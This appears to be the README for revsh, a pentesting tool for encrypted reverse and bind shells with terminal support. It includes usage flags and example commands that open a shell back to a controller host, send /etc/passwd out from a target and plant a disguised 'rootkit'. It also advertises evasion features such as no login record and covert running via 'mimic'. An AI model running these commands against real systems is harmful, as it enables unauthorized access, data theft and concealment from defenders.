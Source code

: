 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~50k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	usage:    revsh [-c [-a] [-d KEYS_DIR] [-f RC_FILE]] [-s SHELL] [-t SEC] [-r SEC1[,SEC2]] [-b [-k]] [-n] [-v] [ADDRESS:PORT]

	  -c              Run in command and control mode.                 (Default is target mode.)
	  -a              Enable Anonymous Diffie-Hellman mode.            (Default is "!ADH:DHE-RSA-AES256-SHA".)
	  -d KEYS_DIR     Reference the keys in an alternate directory.    (Default is "~/.revsh/keys/".)
	  -f RC_FILE      Reference an alternate rc file.                  (Default is "~/.revsh/rc".)
	  -s SHELL        Invoke SHELL as the remote shell.                (Default is "/bin/bash".)
	  -t SEC          Set the connection timeout to SEC seconds.       (Default is "3600".)
	  -r SEC1,SEC2    Set the retry time to be SEC1 seconds, or        (Default is "600,1200".)
	                  to be random in the range from SEC1 to SEC2.
	  -b              Start in bind shell mode.                        (Default is reverse shell mode.)
	  -k              Start the bind shell in keep-alive mode.         (Ignored in reverse shell mode.)
	  -n              Non-interactive netcat style data broker.        (Default is interactive w/remote tty.)
	                  No tty. Useful for copying files.
	  -v              Verbose output.
	  -h              Print this help.
	  ADDRESS:PORT    The address and port of the listening socket.    (Default is "127.0.0.1:9999".)

	  Notes:
	      * The -b flag must be invoked on both the control and target hosts to enable bind shell mode.
	      * Bind shell mode can also be enabled by invoking the binary as 'bindsh' instead of 'revsh'.
	      * Verbose output may mix with data if -v is used together with -n.

	  Interactive example:
	      local controller host:    revsh -c 192.168.0.42:443
	      remote target host:       revsh 192.168.0.42:443

	  Non-interactive example:
	      local controller host:    cat ~/bin/rootkit | revsh -n -c 192.168.0.42:443
	      remote target host:       revsh 192.168.0.42:443 > ./totally_not_a_rootkit


## Example ##

First, setup the local host to be the command and control host (e.g. "monkey"):

	empty@monkey:~$ revsh -c 192.168.0.42:9999

Then connect out from the remote target host (e.g. "kitty"):

	target@kitty:~$ ./revsh 192.168.0.42:9999

We will now find a shell waiting for us back at the control host:

	Listening on 192.168.0.42:9999...  Connected!
	 Remote fingerprint expected: 09a348e737b96961d7ff9d55f958e771828f839e
	 Remote fingerprint received: 09a348e737b96961d7ff9d55f958e771828f839e
	Initializing... Done!
	
	################################
	# hostname: kitty
	# ip address: 192.168.0.123
	# real user: target
	# effective user: target
	################################
	target@kitty:/$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 1538 Jul 18 22:50 /etc/passwd
	target@kitty:/$

Note, if you configured the binary at build time to change the IP:PORT address to 192.168.0.42:9999, then the above example becomes even cleaner:

	empty@monkey:~$ revsh -c
	target@kitty:~$ ./revsh

For a covert reverse shell, _revsh_ can be invoked from within [_mimic_](https://github.com/emptymonkey/mimic) on the target host:

	empty@monkey:~$ revsh -c
	target@kitty:/tmp$ ./mimic -q -e './revsh -s "./mimic -e /bin/bash"'

For netcat style data transfer (with the crypto benefits of _revsh_) invoke _revsh_ with the -n switch. This is useful for moving tools on to the target host:

	empty@monkey:~$ cat rootkit.tar | ./revsh -c -n
	target@kitty:/tmp$ ./revsh >./totally_not_a_rootkit.tar
	

Or for moving data out from the target host:

	empty@monkey:~$ revsh -c
	target@kitty:/tmp$ cat /etc/passwd | ./revsh -n


## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	./revsh -h

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

